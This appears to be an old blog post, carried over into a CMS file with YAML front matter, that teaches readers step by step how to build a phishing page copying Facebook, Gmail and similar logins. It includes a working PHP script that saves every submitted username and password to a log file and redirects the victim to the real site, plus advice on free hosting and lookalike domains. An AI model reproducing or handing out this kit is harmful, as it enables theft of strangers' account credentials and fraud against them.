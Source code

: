```yaml
---
# http://learn.getgrav.org/content/headers
title: Creating a fake ( phishing ) page of gmail , facebook , orkut , myspace etc.
slug: creating-a-fake-phishing-page-of-gmail-facebook-orkut-myspace-etc
# menu: Creating a fake ( phishing ) page of gmail , facebook , orkut , myspace etc.
date: 16-01-2011
published: true
publish_date: 16-01-2011
# unpublish_date: 16-01-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - facebook
        - fake
        - hacking
        - internet
        - passwords
        - website
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [facebook,fake,hacking,internet,passwords,website]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


[![](http://static.howstuffworks.com/gif/phishing-1.jpg)](http://static.howstuffworks.com/gif/phishing-1.jpg)

Phishing has become a very easy to use trick to hack usernames and passwords of users. Here demonstrate how to create a fake phishing page for almost any social networking site , email or any other site that has a login form.

For this trick you would need a hosting account , you can get that easily.  
Register yourself at t35, host1free, 110mb etc.  
Note- 110mb checks for phishing page on their site and removes them.

So now u have a hosting account so lets create a fake page-

First go to the target site. In your browser select Save As from the File menu and save the site on  
 your hardisk with name “login.htm” .

or alternatively right click on the page and click “view source” and copy all of it and save them to a notepad file. Rename the file with “login.htm”.

Now the second part of the hack-  
Go to Notepad and copy this into it-

`<br></br><?php`

header ('Location: http://www.facebook.com');

$handle = fopen("log.txt", "a");

foreach($\_POST as $variable => $value) {

   fwrite($handle, $variable);

   fwrite($handle, "=");

   fwrite($handle, $value);

   fwrite($handle, "rn");

}

fwrite($handle, "rn");

fclose($handle);

exit;

?>

replace facebook.com with the URL you want the user to go after he clicks on submit button.

Save the page as fish.php



Now you need to edit the “login.htm” file we saves earlier. So go to that and open it with notepad.  
now search for anyhtin like “action=” which has something with login. And replace the URl with “fish.php”.

Also create a blank txt file with name “log.txt” . This file would be used to save your logins and passwords.  
Now you are done,.

Go to your hosting account and upload all the files to your server.  
Now go to the URL provided by ur host.

Like – http://g00glepage.t35.com/login.htm

And you would see the fake page as it is.  
Now enter the username and password.

Check the log.txt file. The password and username you enterd previously would be saved in the log.txt  file.

Here you have a working phishing page.  
bu [hackiteasy](http://www.hackiteasy.com/)

Go to our new site- shankee.com
